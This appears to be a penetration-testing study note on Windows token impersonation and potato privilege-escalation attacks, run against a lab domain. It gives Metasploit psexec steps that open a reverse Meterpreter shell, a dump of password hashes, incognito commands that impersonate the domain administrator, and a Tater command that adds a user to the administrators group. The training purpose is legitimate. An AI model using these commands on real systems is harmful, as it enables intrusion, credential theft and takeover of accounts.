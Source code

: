 # Token Impersonation - Potato attacks

## What is it

- Token are temp keys that give access to a system or network without credentials.

## How to

- Launch Metasploit `msfconsole`
- Choose the exploit: `use exploit/windows/smb/psexec`
- Set: rhosts, smbdomain, smbpass, smbuser, target (we can use `show targets` to have a list), payload
- Launch the attack: `run`
- We get a shell:
  ```
  msf6 exploit(windows/smb/psexec) > run

  [*] Started reverse TCP handler on 10.0.2.8:4444 
  [*] 10.0.2.15:445 - Connecting to the server...
  [*] 10.0.2.15:445 - Authenticating to 10.0.2.15:445|marvel.local as user 'fcastle'...
  [!] 10.0.2.15:445 - peer_native_os is only available with SMB1 (current version: SMB3)
  [*] 10.0.2.15:445 - Uploading payload... oeyrkyrs.exe
  [*] 10.0.2.15:445 - Created \oeyrkyrs.exe...
  [*] Sending stage (200262 bytes) to 10.0.2.15
  [+] 10.0.2.15:445 - Service started successfully...
  [*] 10.0.2.15:445 - Deleting \oeyrkyrs.exe...
  [*] Meterpreter session 1 opened (10.0.2.8:4444 -> 10.0.2.15:61871 ) at 2022-02-11 13:49:12 -0500

  meterpreter > 
  ```
- Getting hashes: `hashdump`
  ```
  meterpreter > hashdump
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  Frank Castle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e6cedee56d27d175f48042b53cb6b242:::
  ```
- Use tools: `load` (double tab to get the list of tools)
- `load incognito`
  ```
  Incognito Commands
  ==================

      Command              Description
      -------              -----------
      add_group_user       Attempt to add a user to a global group with all tokens
      add_localgroup_user  Attempt to add a user to a local group with all tokens
      add_user             Attempt to add a user with all tokens
      impersonate_token    Impersonate specified token
      list_tokens          List tokens available under current user context
      snarf_hashes         Snarf challenge/response hashes for every token
  ```
- list_tokens -u
  ```
  meterpreter > list_tokens -u

  Delegation Tokens Available
  ========================================
  Font Driver Host\UMFD-0
  Font Driver Host\UMFD-1
  Font Driver Host\UMFD-2
  MARVEL\Administrator
  MARVEL\fcastle
  NT AUTHORITY\LOCAL SERVICE
  NT AUTHORITY\NETWORK SERVICE
  NT AUTHORITY\SYSTEM
  Window Manager\DWM-1
  Window Manager\DWM-2

  Impersonation Tokens Available
  ========================================
  No tokens available
  ```
- Impersonate Administrator: 
  ```
  meterpreter > impersonate_token marvel\\administrator
  [+] Delegation token available
  [+] Successfully impersonated user MARVEL\Administrator
  meterpreter > shell
  Process 8576 created.
  Channel 1 created.
  Microsoft Windows [Version 10.0.19044.1288]
  (c) Microsoft Corporation. All rights reserved.
  C:\Windows\system32>whoami
  whoami
  marvel\administrator
  ```
- If we hashdump again it will not work so we can rev2self to get back to the initial user
- Any user that has logged in the target will have a token there until the target reboots

## Potato Attacks

### Hot potato

- We can use [Tater](https://github.com/Kevin-Robertson/Tater)
- `powershell.exe -nop -ep bypass`
- `Import-Module Tater.ps1`
- `Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"`
- Your user should be in the administrators group `net localgroup administrators` to check

- See [here](../writeups/HTB-Jeeves.md) an example of a potato attack

## Resources

{% embed url="https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/" %} Rotten Potato - Foxglove Security {% endembed %}  
{% embed url="https://github.com/ohpe/juicy-potato" %} Juicy Potato {% endembed %}  
{% embed url="https://academy.tcm-sec.com/p/windows-privilege-escalation-for-beginners" %} TCM Security - Windows privilege escalation {% endembed %}  
